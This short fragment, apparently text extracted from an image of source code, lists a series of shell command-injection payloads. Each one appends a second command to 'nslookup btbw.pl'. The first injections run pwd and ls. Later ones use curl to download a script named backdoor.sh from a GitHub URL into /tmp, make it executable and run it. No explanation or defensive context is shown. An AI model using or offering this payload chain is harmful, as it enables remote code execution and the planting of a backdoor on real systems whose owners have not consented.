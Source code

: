 

nslookup btbw.pl && pwd

nslookup btbw.pl && ls

nslookup btbw.pl && curl -o /tmp/backdoor.sh -LOk https://raw.githubusercontent.com/szalek/bash_backdoor_1/master/backdoor.sh && echo 1

nslookup btbw.pl & chmod +x /tmp/backdoor.sh

nslookup btbw.pl & /tmp/backdoor.sh